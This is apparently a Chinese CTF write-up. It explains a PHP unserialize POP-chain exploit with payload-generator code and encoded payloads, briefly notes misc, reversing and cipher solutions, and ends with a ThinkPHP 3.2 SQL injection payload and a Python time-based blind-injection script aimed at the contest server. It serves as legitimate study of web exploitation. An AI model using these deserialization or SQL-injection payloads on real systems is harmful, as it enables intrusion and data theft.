



今天碰上事情，加上自己又菜，只做出两题。

# web-babygo

题目给出了源代码:

```php
<?php
@error_reporting(1);
include 'flag.php';
class baby
{
    protected $skyobj;
    public $aaa;
    public $bbb;
    function __construct()
    {
        $this->skyobj = new sec;
    }
    function __toString()
    {
        if (isset($this->skyobj))
            return $this->skyobj->read();
    }
}

class cool
{
    public $filename;
    public $nice; //baby object
    public $amzing;  //baby object serialized
    function read()
    {
        $this->nice = unserialize($this->amzing);
        echo $sth;
        $this->nice->aaa = $sth;
        if($this->nice->aaa === $this->nice->bbb)
        {
            $file = "./{$this->filename}";
            if (file_get_contents($file))
            {
                return file_get_contents($file);
            }
            else
            {
                return "you must be joking!";
            }
        }
    }
}

class sec
{
    function read()
    {
        return "it's so sec~~";
    }
}

if (isset($_GET['data']))
{
    $Input_data = unserialize($_GET['data']); //baby object
    echo $Input_data;
}
else
{
    highlight_file("./index.php");
}
?>
```

可以看到存在反序列化漏洞，构造的POP链为:

```php
baby.__toString()
	->cool.read()
```

注意到baby的$skyobj为protected变量，因此没法先实例化再赋值，只能改__constract()方法，将其设为cool的实例，然后将对象序列化，因为php弱类型，所以反序列化可以成功。通过如下代码生成payload：

```php
<?php
@error_reporting(1);
include 'flag.php';
class baby
{
    protected $skyobj;
    public $aaa;
    public $bbb;
    function __construct()
    {
        $c=new cool();
        $c->filename="flag.php";
        $this->skyobj = $c;
    }
    function __toString()
    {
        if (isset($this->skyobj))
            return $this->skyobj->read();
    }
}

class cool
{
    public $filename;
    public $nice; //baby object
    public $amzing;  //baby object serialized
    function read()
    {
        $this->nice = unserialize($this->amzing);
        $this->nice->aaa = $sth;
        if($this->nice->aaa === $this->nice->bbb)
        {
            $file = "./{$this->filename}";
            if (file_get_contents($file))
            {
                return file_get_contents($file);
            }
            else
            {
                return "you must be joking!";
            }
        }
    }
}

// echo $bb_ser;
$b=new baby();
$b_ser=serialize($b);
echo $b_ser;
echo "\n";

//test:
$Input_data = unserialize($b_ser); //baby object
echo $Input_data;
```

得到payload：

```php
O:4:"baby":3:{s:9:"%00*%00skyobj";O:4:"cool":3:{s:8:"filename";s:8:"flag.php";s:4:"nice";N;s:6:"amzing";N;}s:3:"aaa";N;s:3:"bbb";N;}
```

原先我以为cool里面还要再生成一个baby对象绕过`if($this->nice->aaa === $this->nice->bbb)`，但直接将上面的payload作为get的data发过去就能拿到flag了，原因是`$this->nice = unserialize($this->amzing);`执行后`$nice=bool(false)`，此时`$this->nice->aaa=$this->nice->bbb=NULL`，因为`$sth`变量没有定义（实际上在`flag.php`中`$sth`是定义的，但是在类中不能直接用——需要global声明），因此即使执行`$this->nice->aaa = $sth;`，`$this->nice->aaa`仍为空，因此if判断是通过的。



## 正确解法

如果在类中确实使用了global声明，那么需要用指针使bbb随aaa动态改变（这应该是出题人本来的意思，感谢飘零大佬的wp)

```php
$b=new baby();
$b->bbb=&$b->aaa;
```

现在梳理一下我们的对象关系：

```
$baby_outside->skyobj=$cool_obj
	$cool_obj->amzing=serialize($baby_inside)
		$baby_inside->bbb=&$baby_inside->aaa
```

这样因为最内部的baby->skyobj不能为cool对象，不然就循环调用了，因此要处理一下构造函数，payload产生代码如下：

```php
<?php
@error_reporting(1);
include 'flag.php';
class baby
{
    protected $skyobj;
    public $aaa;
    public $bbb;
    function __construct($s)
    {
        if($s){
            //若为内部则包含sec对象，且使用指针
            $this->bbb=&$this->aaa; 
            $this->skyobj=new sec();
        } else{
            //若为外部则构造一个cool对象，
            $c=new cool();
            $c->filename="flag.php";
            $b=new baby('i');
            $c->amzing=serialize($b);
            $this->skyobj = $c;
        }
    }
    function __toString()
    {
        if (isset($this->skyobj))
            return $this->skyobj->read();
    }
}

class cool
{
    public $filename;
    public $nice; //baby object
    public $amzing;  //baby object serialized
    function read()
    {
        $this->nice = unserialize($this->amzing);
        $this->nice->aaa = $sth;
        if($this->nice->aaa === $this->nice->bbb)
        {
            $file = "./{$this->filename}";
            if (file_get_contents($file))
            {
                return file_get_contents($file);
            }
            else
            {
                return "you must be joking!";
            }
        }
    }
}

class sec
{
    function read()
    {
        return "it's so sec~~";
    }
}

// echo $bb_ser;
$b=new baby();
$b_ser=serialize($b);
echo urlencode($b_ser);
echo "\n";
$Input_data = unserialize($b_ser); //baby object
echo $Input_data;
?>
```

得到如下payload：

```
O%3A4%3A%22baby%22%3A3%3A%7Bs%3A9%3A%22%00%2A%00skyobj%22%3BO%3A4%3A%22cool%22%3A3%3A%7Bs%3A8%3A%22filename%22%3Bs%3A8%3A%22flag.php%22%3Bs%3A4%3A%22nice%22%3BN%3Bs%3A6%3A%22amzing%22%3Bs%3A71%3A%22O%3A4%3A%22baby%22%3A3%3A%7Bs%3A9%3A%22%00%2A%00skyobj%22%3BO%3A3%3A%22sec%22%3A0%3A%7B%7Ds%3A3%3A%22aaa%22%3BN%3Bs%3A3%3A%22bbb%22%3BR%3A3%3B%7D%22%3B%7Ds%3A3%3A%22aaa%22%3BN%3Bs%3A3%3A%22bbb%22%3BR%3A6%3B%7D
```

本地复现成功：



# MISC1

使用formost得到一个二维码：


左下角有个很淡的flag，用stegsolve就看的很清楚了：



# 其他题目记录

## Reverse1

题目给的pyc反编译不了，于是使用pyinstxtractor.py反编译exe，得到一个文件夹，因为文件太多当时就卡住了，实际上应该修复`AnhengRe`文件的头部，并加上pyc的后缀，就可以反编译出源代码了。

## 键盘之争

将字符串从QWERY键盘的布局对应到Dvorak的布局就可以得到flag，本质上是一个古典密码本。

## Web2

参考[飘零大佬wp](https://www.anquanke.com/post/id/170341#h3-3),为tp3.2的约束注入，附上exp供以后使用：

查看表、列名payload

```url
http://101.71.29.5:10004/Admin/User/Index?search[table]=flag where 1 and polygon(id)--
```

盲注exp：

```python
import requests
flag = ''
cookies = {
    'PHPSESSID': 're4g49sil8hfh4ovfrk7ln1o02'
}
for i in range(1,33):
    for j in '0123456789abcdef':
        url = 'http://101.71.29.5:10004/Admin/User/Index?search[table]=flag where 1 and if((ascii(substr((select flag from flag limit 0,1),'+str(i)+',1))='+str(ord(j))+'),sleep(3),0)--'
        try:
            r = requests.get(url=url,timeout=2.5,cookies=cookies)
        except:
            flag += j
            print flag
            break
```


